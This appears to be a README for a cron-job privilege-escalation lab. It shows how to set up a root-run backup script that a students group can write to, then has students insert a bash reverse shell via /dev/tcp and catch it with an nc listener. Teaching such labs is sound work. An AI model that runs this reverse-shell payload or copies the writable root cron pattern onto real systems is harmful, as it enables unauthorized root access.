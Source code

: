 # Lab Setup 

## 1. Clone the repository
```bash
git clone https://github.com/iCxts/cronjoblab.git
cd cronjoblab
```
## 2. Run the setup script
```bash
sudo ./setup_cron.sh
```
## 3. Add the student user to the 'students' group
```bash
sudo usermod -aG students <student-username>
```

# Lab Instructions (Student)
## 1. Inspect the cronjob configuration
```bash
cat /etc/cron.d/backup
```


## 2. Check script permissions
```bash
ls -l /opt/backup/task.sh
```

Example output:
```bash
-rw-rw-r-- 1 root students ... /opt/backup/task.sh
```

This confirms that the file is writable by the students group.

## 3. Modify the script to gain control

Edit /opt/backup/task.sh and change the student area to include a reverse shell payload.

Example 
```bash
bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1
```

Replace <your-ip-address> with your attack machine’s IP.

## 4. Start a listener

On your own (attacker) machine:
```bash
nc -nvlp 4444
```


